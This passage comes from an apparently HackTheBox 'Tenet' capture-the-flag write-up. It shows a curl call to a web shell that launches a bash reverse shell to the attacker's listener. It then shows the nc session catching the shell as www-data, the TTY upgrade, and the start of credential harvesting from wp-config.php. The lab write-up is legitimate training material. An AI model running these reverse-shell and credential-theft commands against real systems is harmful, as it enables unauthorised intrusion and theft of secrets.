 

    root@kali# curl -X GET http://10.10.10.223/0xdf.php -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"'



At `nc`, a shell comes back:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.223.
    Ncat: Connection from 10.10.10.223:53092.
    bash: cannot set terminal process group (1519): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@tenet:/var/www.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade the typical way with
`python3 -c 'import pty;pty.spawn("bash")'`, then Ctrl-z,
`stty raw -echo; fg`, then `reset`:



    www-data@tenet:/var/www.md$ python3 -c 'import pty;pty.spawn("bash")' 
    www-data@tenet:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@tenet:/var/www.md$



## Shell as neil

There's one user on the box, neil:



    www-data@tenet:/home$ ls
    neil



On the blog, neil showed interest in the database. I'll grab the creds
from the `wp-config.php` file:



    <?php                                                                                                         ...[snip]...
    // ** MySQL settings - You can get this info from your web host ** //      
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );    
